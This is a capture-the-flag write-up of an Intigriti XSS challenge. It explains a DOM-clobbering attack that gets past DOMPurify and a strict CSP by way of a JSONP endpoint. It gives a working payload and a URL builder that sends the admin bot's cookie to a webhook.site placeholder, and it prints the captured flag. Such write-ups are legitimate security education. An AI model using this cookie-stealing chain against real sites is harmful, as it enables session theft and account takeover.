**Intigriti March Challenge 0326 — Write-up**

Hi! This is writeup for the Intigriti's March 0326 challenge. The goal was to find an XSS vulnerability on the challenge page, use it to steal the admin bot's cookie, and capture the flag. Here's how I did it.




The rules stated the solution must leverage an XSS vulnerability, must not be self-XSS, must work in the latest version of Google Chrome, and must require no more than one click from the victim. The target was an admin bot that would visit any URL submitted through a report form — meaning cookie theft via XSS was the objective.

**First phase recon**



The challenge page was a themed "Secure Search Portal" with a search field, a results container, and a "Report it to Admin" link that opened a modal for submitting URLs to the admin bot. The page loaded three JavaScript files: *purify.min.js*, *components.js*, and *main.js*. The URL accepted two parameters: *q* (search query) and *domain* (set to *internal* by a hidden form field).

**Testing the Search Field**



The *q* parameter was the obvious injection point — its value appeared reflected in the search results. Basic XSS payloads like `<script>alert(1)</script>` and `` were immediately blocked. Checking the response headers confirmed a strict Content Security Policy: `script-src 'self'` blocked all inline scripts and event handlers. This ruled out classic XSS approaches entirely.

**Analysing the JavaScript Files**


 


Reading the source files revealed the full picture:

**main.js** sanitized *q* with DOMPurify 3.0.6 before injecting it into the DOM:

```js
const cleanHTML = DOMPurify.sanitize(q, {
    FORBID_ATTR: ['id', 'class', 'style'],
    KEEP_CONTENT: true
});
resultsContainer.innerHTML = `<p>Results for: <span>${cleanHTML}</span></p>`;
```

Critically, only `id`, `class`, and `style` were forbidden — leaving `name` and `data-*` attributes completely intact. After the injection, `main.js` called `window.ComponentManager.init()`.

**components.js** contained two important pieces. First, *ComponentManager* which loaded external scripts based on element attributes:

```js
static loadComponent(element) {
    let rawConfig = element.getAttribute('data-config');
    let config = JSON.parse(rawConfig);
    let scriptUrl = config.path + config.type + '.js';
    let s = document.createElement('script');
    s.src = scriptUrl;
    document.head.appendChild(s);
}
```

Second, `Auth.loginRedirect()` which read from `window.authConfig` and redirected the browser — appending `document.cookie` to the URL if configured to do so:

```js
window.Auth.loginRedirect = function (data) {
    let config = window.authConfig || { dataset: { next: '/', append: 'false' } };
    let redirectUrl = config.dataset.next || '/';
    if (config.dataset.append === 'true') {
        redirectUrl += "?token=" + encodeURIComponent(document.cookie);
    }
    window.location.href = redirectUrl;
};
```

The key insight: `window.authConfig` could be **DOM-clobbered** using a `<form name="authConfig">` element, since `name` attributes survive DOMPurify sanitization. A form element's `dataset` maps directly to its `data-*` attributes — meaning we could fully control `redirectUrl` and enable cookie appending.

---

**The Report Functionality**



The "Report it to Admin" modal submitted a URL via `POST /report`. Testing confirmed the server sent the URL to a headless browser (admin bot) which visited it with its session cookie. This was the delivery mechanism — any URL we crafted would be visited by the bot, triggering our payload.

---

**Finding the Hidden JSONP Endpoint**

The chain was clear: inject a clobbered `authConfig` form + a `data-component` div, make *ComponentManager* load a same-origin script that calls `Auth.loginRedirect()`. The missing piece was a same-origin `.js` file that called `Auth.loginRedirect()`.

After extensive enumeration with ffuf using SecLists wordlists, the endpoint */api/stats* was discovered. A JSONP-style request confirmed it:

```
GET /api/stats?callback=Auth.loginRedirect
→ Auth.loginRedirect({...})
```

This was a same-origin response that passed the `script-src 'self'` CSP and, when loaded as a script, called `Auth.loginRedirect()` directly.



**Building the Exploit Chain**

With all pieces identified, the full chain was:

```
1. <form name="authConfig" data-next="WEBHOOK" data-append="true">
   → Clobbers window.authConfig, controls redirect destination + enables cookie append

2. <div data-component="true" data-config='{"path":"/api/stats?callback=Auth.loginRedirect&x=","type":""}'>
   → Triggers ComponentManager.init() → loads /api/stats as a script

3. /api/stats?callback=Auth.loginRedirect responds with Auth.loginRedirect({...})
   → Executes Auth.loginRedirect() with our clobbered authConfig

4. Auth.loginRedirect() appends document.cookie to WEBHOOK URL
   → window.location.href = "WEBHOOK?token=FLAG{...}"
```

The payload URL was built via the browser console to ensure correct encoding:

```js
const wh = 'https://webhook.site/YOUR-UUID';
const q = `<form name="authConfig" data-next="${wh}" data-append="true"></form><div data-component="true" data-config='{"path":"/api/stats?callback=Auth.loginRedirect&x=","type":""}'></div>`;
const url = `https://challenge-0326.intigriti.io/challenge.html?domain=internal&q=${encodeURIComponent(q)}`;
console.log(url);
```


**Capturing the Flag**

The encoded payload URL was submitted to the admin bot via the report form. The bot visited the URL, the exploit fired automatically on page load with zero clicks required, and the webhook received:





```
GET /?token=INTIGRITI{019cdb71-fcd4-77cc-b15f-d8a3b6d63947}
```

**Flag:**:*INTIGRITI{019cdb71-fcd4-77cc-b15f-d8a3b6d63947}*

